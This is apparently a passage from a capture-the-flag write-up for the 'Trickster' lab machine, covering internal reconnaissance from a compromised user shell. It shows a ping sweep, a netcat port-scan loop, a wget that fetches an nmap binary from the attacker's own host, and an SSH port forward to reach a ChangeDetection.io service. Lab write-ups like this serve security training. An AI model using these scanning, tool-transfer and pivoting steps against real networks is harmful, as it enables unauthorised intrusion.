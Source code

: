 ```console       
```
Using this simple `ping sweep`, IP is found as `172.17.0.2`.

```console 
james@trickster:~$ for ip in {1..16}; do ping -c 1 -W 1 172.17.0.$ip &> /dev/null && echo "172.17.0.$ip is up"; done
172.17.0.1 is up
172.17.0.2 is up
james@trickster:~$
```
After finding the IP, checking the open ports. Noticed i can use `netcat` to find open ports. Using this command found online, we find the only port open is `5000`.
```console 
james@trickster:~$ for port in {1..9999}; do nc -zv -w 1 172.17.0.2 $port 2>&1 | grep succeeded; done
Connection to 172.17.0.2 5000 port [tcp/*] succeeded!
james@trickster:~$
```

Downloading `nmap` binary from my host and searching also achieves the same thing.

```console
james@trickster:~$ wget 10.10.14.145:8000/nmap
--2024-10-14 18:40:28--  http://10.10.14.145:8000/nmap
Connecting to 10.10.14.145:8000... connected.
HTTP request sent, awaiting response... 200 OK
Length: 5944464 (5.7M) [application/octet-stream]
Saving to: ‘nmap’
nmap                                            100%[=====================================================================================================>]   5.67M  2.08MB/s    in 2.7s    

2024-10-14 18:40:31 (2.08 MB/s) - ‘nmap’ saved [5944464/5944464] 

james@trickster:~$ ./nmap -p- 172.17.0.2

Starting Nmap 6.49BETA1 ( http://nmap.org ) at 2024-10-14 18:42 UTC
Unable to find nmap-services!  Resorting to /etc/services
Cannot find nmap-payloads. UDP payloads are disabled.
Nmap scan report for 172.17.0.2
Host is up (0.00046s latency).
Not shown: 65534 closed ports
PORT     STATE SERVICE
5000/tcp open  unknown

Nmap done: 1 IP address (1 host up) scanned in 36.69 seconds
```
`Forwarding` the port to my host to login using `firefox`.

```console
┌─[suce@parrot]─[~]
└──╼ $ ssh -L 5000:172.17.0.2:5000 james@trickster.htb
james@trickster.htb's password: 
Last login: Mon Oct 14 19:12:02 2024 from 10.10.14.145
```
### Port 5000 - ChangeDetection.io
